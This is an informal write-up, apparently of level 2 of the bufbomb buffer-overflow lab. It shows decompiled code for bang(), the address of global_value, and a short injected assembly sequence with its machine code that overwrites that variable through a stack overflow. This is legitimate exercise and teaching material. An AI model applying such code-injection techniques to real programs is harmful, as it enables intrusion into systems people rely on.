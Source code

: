ps:This cookie varies from person to person



## level2:Firecracker

will now we arrive level2,we need use stack overflow turn to bang and make this global_vaule==cookie (damn,if i can use pwntools it will be very easy.)

```
void __noreturn bang()
{
  if ( global_value == cookie )
  {
    __printf_chk(1, "Bang!: You set global_value to 0x%x\n", global_value);
    validate(2);
  }
  else
  {
    __printf_chk(1, "Misfire: global_value = 0x%x\n", global_value);
  }
  exit(0);
}
```

We can know the address we hold global variables is 0x0804D100

```
.bss:0804D100 global_value    dd ?                    ; DATA XREF: bang+6↑r
```

ok let we go,now we can use one gadget to fix it vaule

```
movl $0x4e06a707,0x804d100  #change vaule
push $0x8048c9d             
ret                         #push and ret just like call
```

machine code

```
q@linux:~$ gcc -c 3.s
q@linux:~$ objdump -d 3.o

3.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	c7 04 25 00 d1 04 08 	movl   $0x4e06a707,0x804d100
   7:	07 a7 06 4e 
   b:	68 9d 8c 04 08       	pushq  $0x8048c9d
  10:	c3     
```
